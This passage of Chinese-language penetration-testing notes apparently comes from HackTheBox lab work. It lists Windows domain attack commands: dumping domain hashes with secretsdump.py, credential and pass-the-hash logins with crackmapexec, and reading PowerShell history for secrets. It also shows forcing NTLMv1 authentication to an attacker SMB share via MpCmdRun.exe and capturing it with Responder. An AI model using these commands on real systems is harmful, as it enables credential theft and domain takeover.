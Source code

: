   还可以尝试读取域内 Hash

  ```bash
  secretsdump.py -hashes :d167c3238864b12f5f82feae86a7f798 'htb.local/APT$@htb.local'
  secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
  ```
  
  可尝试winrm、可验证 smb
  
  ```bash
  crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'
  crackmapexec smb 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
  ```



- 提权阶段，翻看windows重要文件列表

  ```http
  https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt
  ```

  可留心 powershell 历史记录

  ```http
  https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html
  ```

  ```
  $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
  ```

  ```powershell
  *Evil-WinRM* PS C:\Users\legacyy\desktop> cd C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
  
  *Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
  ```

  

- Responder 配合提取破解 NTMLV1，详情见 APT 靶机   [GitHub - lgandx/Responder ](https://github.com/lgandx/Responder)

  靶机运行：

  ```
  .\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.16.5\share\file.txt
  ```

  kali：

  ```
  challenge=1122334455667788
  ```

  ```
  python Responder.py -I tun0 --lm
  ```

  到 https://crack.sh/ 来破解



